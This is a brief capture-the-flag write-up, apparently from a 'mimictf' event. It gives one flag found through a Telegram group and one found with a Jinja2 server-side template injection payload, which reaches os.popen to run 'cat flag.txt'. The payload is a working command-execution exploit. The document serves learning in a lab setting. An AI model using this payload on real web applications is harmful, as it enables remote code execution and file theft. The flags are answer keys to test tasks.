 Welcome flag 

Just check TG group by link in task description and search flag!

FLAG:

    mimictf{w3lc0m3_t0_th3_c1ub_buddy}

Task-2

payload:

    {{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}

FLAG:

    mimictf{55t1_1nj3ct10n_s1mple99928}
